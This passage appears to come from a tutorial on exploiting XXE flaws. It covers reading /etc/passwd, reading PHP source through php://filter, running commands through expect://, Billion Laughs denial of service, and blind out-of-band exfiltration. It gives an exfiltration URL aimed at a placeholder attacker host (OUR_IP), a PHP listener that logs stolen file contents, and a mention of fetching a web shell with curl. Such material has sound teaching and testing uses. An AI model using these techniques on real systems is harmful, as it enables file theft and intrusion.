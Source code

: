 **3. Reading Local Files**

Use an external entity:

<img width="532" height="303" alt="image" src="https://github.com/user-attachments/assets/68851dbc-aff3-452d-a39b-e8f4059a38b5" />

If the /etc/passwd content is shown, the app is vulnerable.

**4. Reading Source Code (PHP Example)**

PHP's php://filter allows base64-encoded file reads:

<img width="875" height="293" alt="image" src="https://github.com/user-attachments/assets/f4d5aba6-22e5-4c27-aa97-d6f70107ee01" />

Decode the base64 to view the source.

**5. Remote Code Execution (PHP expect module)**

If enabled, expect:// can run commands:

<img width="502" height="330" alt="image" src="https://github.com/user-attachments/assets/e5274004-a5d4-4300-b91a-9f131bbe82ed" />

You can also use curl to fetch a web shell from your server.

**6. DoS Attack (Billion Laughs)**

<img width="695" height="480" alt="image" src="https://github.com/user-attachments/assets/c2cd7519-394d-47a2-9c4b-b7a4baa0ccd6" />

This can overload memory on vulnerable servers (most modern ones block it).

# Blind XXE Data Exfiltration

In some XXE cases, no entity values or error messages are shown — making the vulnerability completely blind.
We can still exfiltrate files using Out-of-Band (OOB) data exfiltration by making the target server send the file contents to us.

**1. OOB File Exfiltration (Manual)**

We host a malicious DTD that:

- Reads the target file.
- Base64-encodes it.
- Sends it to our server as an HTTP request parameter.

xxe.dtd

<img width="852" height="68" alt="image" src="https://github.com/user-attachments/assets/b74ae9ba-568e-445e-aacf-fae31343e989" />

If `/etc/passwd` contains `root:x:0:0:root:/root:/bin/bash`, it will be sent to:

`http://OUR_IP:8000/?content=<BASE64>`

We can then decode it locally.

**2. Local PHP Listener**

<pre><?php
if (isset($_GET['content'])) {
    error_log("\n\n" . base64_decode($_GET['content']));
}
?></pre>

